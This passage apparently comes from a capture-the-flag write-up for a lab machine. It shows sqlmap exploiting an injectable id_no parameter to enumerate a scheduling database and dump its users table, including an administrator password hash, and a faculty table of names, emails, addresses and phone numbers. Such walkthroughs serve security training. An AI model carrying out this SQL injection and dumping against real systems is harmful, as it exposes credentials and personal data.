 the parameter id_no is injectable, sqlmap return two database names: information_schema, scheduling_db

Checking tables inside scheduling_db
```bash
Database: scheduling_db
[6 tables]
+---------------------+
| class_schedule_info |
| courses             |
| faculty             |
| schedules           |
| subjects            |
| users               |
+---------------------+

```

the table users is interesting, let's dump the content.
```bash
Database: scheduling_db
Table: users
[1 entry]
+----+---------------+------+----------------------------------+----------+
| id | name          | type | password                         | username |
+----+---------------+------+----------------------------------+----------+
| 1  | Administrator | 1    | 1fecbe762af147c1176a0fc2c722a345 | admin    |
+----+---------------+------+----------------------------------+----------+

```

Found the password hash for administrator, but unable to crack it.

Checking faculty table

```bash
+----+----------+--------------------+--------+---------------------+----------------+----------+-----------+------------+
| id | id_no    | email              | gender | address             | contact        | lastname | firstname | middlename |
+----+----------+--------------------+--------+---------------------+----------------+----------+-----------+------------+
| 1  | 63033226 | jsmith@faculty.htb | Male   | 151 Blue Lakes Blvd | (646) 559-9192 | Smith    | John      | C          |
| 2  | 85662050 | cblake@faculty.htb | Female | 225 Main St         | (763) 450-0121 | Blake    | Claire    | G          |
| 3  | 30903070 | ejames@faculty.htb | Male   | 142 W Houston St    | (702) 368-3689 | James    | Eric      | P          |
+----+----------+--------------------+--------+---------------------+----------------+----------+-----------+------------+

```

We now got username and faculty no. login to see if there are any events, found nothing
